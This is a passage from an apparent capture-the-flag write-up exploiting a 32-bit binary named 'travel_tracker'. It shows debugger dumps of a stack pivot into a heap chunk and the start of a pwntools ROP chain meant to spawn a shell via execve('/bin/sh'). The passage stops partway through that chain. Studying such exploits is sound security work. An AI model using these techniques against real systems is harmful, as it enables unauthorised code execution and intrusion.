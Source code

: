 ```
   0x565564bb <main+286>       ret    
   0x565564bc <addReview+0>    push   ebp
───────────────────────────────────────────────── stack ────
0x5655a338│+0x0000: 0x5655a344  →  0x565565e6  →  <addReview+298> pop ebp	 ← $esp
0x5655a33c│+0x0004: 0x00000021 ("!"?)
0x5655a340│+0x0008: 0xf7dfb8f0  →  0xfb1e0ff3	 ← $ebp
0x5655a344│+0x000c: 0x565565e6  →  <addReview+298> pop ebp
0x5655a348│+0x0010: 0x56559550  →  0x00000000
0x5655a34c│+0x0014: 0xf7daf2de  →  0x5f5e5b5c
────────────────────────────────────────────────────────────
```

So `ecx` now points exactly to `comment+0x4`, and `lea esp, [ecx-0x4]` will stack pivot into the comment chunk.

```
───────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x21      
$ecx   : 0x5655a344  →  0x565565e6  →  <addReview+298> pop ebp
$edx   : 0x1       
$esp   : 0x5655a340  →  0xf7dfb8f0  →  0xfb1e0ff3
$ebp   : 0xf7dfb8f0  →  0xfb1e0ff3
$esi   : 0xffffded4  →  0xffffdfbf  →  "./travel_tracker"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x565564bb  →  <main+286> ret 
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
─────────────────────────────────────────── code:x86:32 ────
   0x565564b6 <main+281>       pop    ebx
   0x565564b7 <main+282>       pop    ebp
   0x565564b8 <main+283>       lea    esp, [ecx-0x4]
 → 0x565564bb <main+286>       ret    
   ↳  0xf7dfb8f0                  endbr32 
      0xf7dfb8f4                  push   ebp
      0xf7dfb8f5                  mov    ebp, esp
      0xf7dfb8f7                  push   edi
      0xf7dfb8f8                  call   0xf7efae3d
      0xf7dfb8fd                  add    edi, 0x1b7703
───────────────────────────────────────────────── stack ────
0x5655a340│+0x0000: 0xf7dfb8f0  →  0xfb1e0ff3	 ← $esp
0x5655a344│+0x0004: 0x565565e6  →  <addReview+298> pop ebp	 ← $ecx
0x5655a348│+0x0008: 0x56559550  →  0x00000000
0x5655a34c│+0x000c: 0xf7daf2de  →  0x5f5e5b5c
0x5655a350│+0x0010: 0x56559550  →  0x00000000
0x5655a354│+0x0014: 0x5655a300  →  0x00000000
────────────────────────────────────────────────────────────
```

We can now send the second ropchain, which will then do `execve("/bin/sh", 0, 0)`

```
log.info("Send stage 2 ropchain")

POPECXEAX = libc.address + 0x128124
POPEBX = e.address + 0x1022    
POPEDX = libc.address + 0x37375
SYSCALL = libc.address + 0x37765

rop = ""
rop += p32(0)
rop += p32(0)
rop += p32(0)
rop += p32(0)
```